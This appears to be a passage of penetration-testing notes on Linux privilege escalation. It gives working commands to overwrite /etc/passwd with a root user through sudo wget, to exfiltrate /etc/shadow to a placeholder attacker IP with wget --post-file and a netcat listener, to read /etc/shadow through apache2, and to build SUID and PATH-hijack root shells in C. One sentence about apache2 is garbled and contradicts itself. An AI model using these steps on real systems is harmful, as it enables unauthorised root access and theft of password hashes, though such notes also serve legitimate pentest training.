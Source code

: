 {% embed url="https://www.hackingarticles.in/linux-for-pentester-wget-privilege-escalation/" %}

This article explains perfectly how we can take advantage of this by adding a user to our /etc/passwd file and uploading it to the victim machine via wget, thus replacing its existing file

```bash
openssl passwd -1 -salt ignite pass123
$1$ignite$3eTbJm98O9Hz.k1NTdNxe1
ignite:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/usr/bin/bash
```

You can also abuse this by using wget to transfer a file to your local machine

```bash
# on victim machine
sudo wget --post-file=/etc/shadow http://[ATTACKER IP]:8081
# on kali
nc -lnvp 8081
```

#### apache2

You can get a shell or edit system files, but you can _**view**_ them

```
sudo apache2 -f /etc/shadow
```

## Create a SUID binary

<table><thead><tr><th width="121.5">Function</th><th>Description</th></tr></thead><tbody><tr><td>setreuid()</td><td>sets real and effective user IDs of the calling process</td></tr><tr><td>setuid()</td><td>sets the effective user ID of the calling process</td></tr><tr><td>setgid()</td><td>sets the effective group ID of the calling process</td></tr></tbody></table>

```bash
print 'int main(void){\nsetresuid(0, 0, 0);\nsystem("/bin/sh");\n}' > /tmp/suid.c   
gcc -o /tmp/suid /tmp/suid.c  
sudo chmod +x /tmp/suid # execute right
sudo chmod +s /tmp/suid # setuid bit
```

## GTFOBins

[GTFOBins](https://gtfobins.github.io/) is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.

The project collects legitimate functions of Unix binaries that can be abused to break out restricted shells, escalate or maintain elevated privileges, transfer files, spawn bind and reverse shells, and facilitate the other post-exploitation tasks.

## Path

{% embed url="https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/" %}

{% code title="/tmp/shell" %}
```c
#include <unistd.h>
void main()
{    setuid(0);
     setgid(0);
     system("/bin/bash");   
}
```
{% endcode %}
